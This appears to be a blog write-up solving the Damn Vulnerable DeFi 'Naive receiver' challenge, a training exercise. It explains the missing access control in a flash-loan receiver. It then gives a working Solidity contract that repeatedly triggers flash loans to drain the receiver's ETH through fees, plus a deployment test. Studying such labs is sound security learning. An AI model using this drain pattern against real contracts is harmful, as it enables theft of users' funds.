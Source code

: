 ```yaml
---
isDraft: false
title: 'Damn Vulnerable DeFi Challenge #2 Solution'
description: 'Explanation of solution to Damn Vulnerable DeFi Challenge #2: Naive receiver'
tags: ['defi', 'solidity']
series: 'Damn Vulnerable DeFi'
publishDate: 'Feb 15, 2023'
---
```



# {frontmatter.title}

<Quote />

*Published {frontmatter.publishDate}*

> ## Challenge #2 - Naive receiver
>
> There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.
>
> A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.
>
> Take all ETH out of the user’s contract. If possible, in a single transaction.

The first thing that stands out in these contracts is that neither the pool nor the receiver implement any sort of access control. The pool's `flashLoan` function calls the `onFlashLoan` function on any contract that is set as the `receiver`.

```solidity
// contracts/naive-receiver/NaiveReceiverLenderPool.sol

function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    if (token != ETH) revert UnsupportedCurrency();

    uint256 balanceBefore = address(this).balance;

    // Transfer ETH and handle control to receiver
    SafeTransferLib.safeTransferETH(address(receiver), amount);
    if (
        receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS
    ) {
        revert CallbackFailed();
    }

    if (address(this).balance < balanceBefore + FIXED_FEE)
        revert RepayFailed();

    return true;
}
```

We can call the receiver's `onFlashLoan` function, and it will transfer back `amount` and `fee`. `amount` is set in the pool's `flashLoan` function's `amount` parameter. `fee` is set by the pool's `FIXED_FEE` constant (`1 ether`).

```solidity
// contracts/naive-receiver/FlashLoanReceiver.sol

function onFlashLoan(
    address,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata
) external returns (bytes32) {
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }

    if (token != ETH) revert UnsupportedCurrency();

    uint256 amountToBeRepaid;
    unchecked {
        amountToBeRepaid = amount + fee;
    }

    _executeActionDuringFlashLoan();

    // Return funds to pool
    SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

We can call `onFlashLoan` on the receiver through the pool's `flashLoan` function. The receiver will transfer the fee to the pool, so all we have to do is repeatedly call `onFlashLoan` until the receiver is drained. The challenge asks us to do it in one transaction, though.

To do so, we can create a loop in a contract's `constructor`, and it will run right when it is deployed. The contract's deployment will be our only transaction.

Let's create a contract that transfers everything to the pool from within its `constructor`.

```solidity
// contracts/naive-receiver/Hose.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

contract Hose {
    constructor(
        IERC3156FlashBorrower receiver,
        NaiveReceiverLenderPool pool
    ) {
        while (address(receiver).balance >= 1 ether)
            pool.flashLoan(receiver, pool.ETH(), 0, "");
    }
}
```

We call `flashLoan` on the pool until the receiver can no longer pay the fee. We set `flashLoan`'s `receiver` parameter as the receiver we want to call `onFlashLoan` on. The `token` parameter must be `0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE` or the function will revert. We can conveniently pass in the pool's `ETH` constant since it is `public`. The `amount` parameter doesn't matter in this case since the receiver does not do anything with the actual loan. It could really be anything between 0 and 1000 ETH (the pool's balance). The `data` parameter is also impactless, since the receiver just throws this argument out.

A `for` loop might be better here, so we can set the amount of times we loop, and control how much gas we spend. But since the `player` account is balling out with 10,000 ETH, it doesn't matter much in this case.

All that is left to do is compile and deploy our new contract.

```js
// test/naive-receiver/naive-receiver.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory('Hose', player)
  ).deploy(receiver.address, pool.address)
})
```
